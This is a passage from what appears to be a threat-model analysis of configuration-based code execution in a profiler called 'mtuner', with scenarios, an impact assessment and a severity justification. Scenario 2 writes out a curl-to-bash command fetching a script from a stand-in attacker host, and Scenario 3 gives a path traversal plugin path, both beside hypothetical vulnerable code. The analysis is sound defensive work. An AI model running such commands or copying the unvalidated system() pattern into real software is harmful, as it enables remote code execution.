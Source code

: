 *   **Scenario 2: Code Execution via Interpreted Configuration Value:**
    Imagine `mtuner` uses a configuration parameter to specify a script or command to be executed as part of the profiling process (perhaps for setup or teardown). If this parameter is interpreted directly by a shell or scripting language without validation, it's vulnerable.

    *   **Attack:** The attacker modifies a configuration file to set `setup_script: "curl attacker.com/malicious_script.sh | bash"`.
    *   **Vulnerable Code (Hypothetical):** `system(config.setup_script);`
    *   **Outcome:**  Instead of executing a legitimate setup script, `mtuner` would download and execute a malicious script from the attacker's server.

*   **Scenario 3: Path Traversal leading to Code Execution (Less Direct, but Possible):**
    If `mtuner` uses configuration parameters to specify paths to libraries, plugins, or other executable components, and input validation is weak, an attacker might be able to use path traversal techniques to point to malicious files. This is less direct code execution via configuration, but still a vulnerability.

    *   **Attack:** The attacker sets `plugin_path: "/../../../../tmp/malicious_plugin.so"` (assuming they can place `malicious_plugin.so` in `/tmp`).
    *   **Vulnerable Code (Hypothetical):** `load_plugin(config.plugin_path);`
    *   **Outcome:** `mtuner` might attempt to load and execute the malicious plugin from `/tmp`, leading to code execution within `mtuner`'s process.

**2.4 Impact Assessment:**

Successful exploitation of this vulnerability has **Critical** impact due to the potential for **Arbitrary Code Execution**.

*   **Confidentiality:**  An attacker can gain access to sensitive data processed by `mtuner` and potentially the profiled application. This could include profiling data, application secrets, or system files.
*   **Integrity:** An attacker can modify `mtuner`'s configuration, behavior, and profiling results. They could also tamper with the profiled application or the system itself.
*   **Availability:** An attacker could crash `mtuner`, disrupt profiling activities, or even take down the entire system by executing malicious commands.
*   **System Compromise:**  Code execution vulnerabilities often lead to full system compromise. An attacker can gain a shell on the system running `mtuner`, install backdoors, escalate privileges, and pivot to other systems on the network.
*   **Impact on Profiled Application:** While the vulnerability is in `mtuner`, a compromised `mtuner` can be used to attack the profiled application indirectly. For example, by modifying profiling parameters, injecting code into the profiling process, or using `mtuner` as a stepping stone to attack the application's environment.

**2.5 Risk Severity Justification:**

The Risk Severity is correctly classified as **Critical** because:

*   **High Likelihood:** Insufficient input validation is a common vulnerability, and configuration handling is a frequent target. If `mtuner` lacks robust validation, the likelihood of exploitation is high.
*   **Critical Impact:** As detailed above, the potential impact of code execution is severe, ranging from data breaches to full system compromise.
*   **Ease of Exploitation (Potentially):** Depending on the configuration mechanisms and the vulnerability's location, exploitation could be relatively straightforward for an attacker with control over configuration sources.
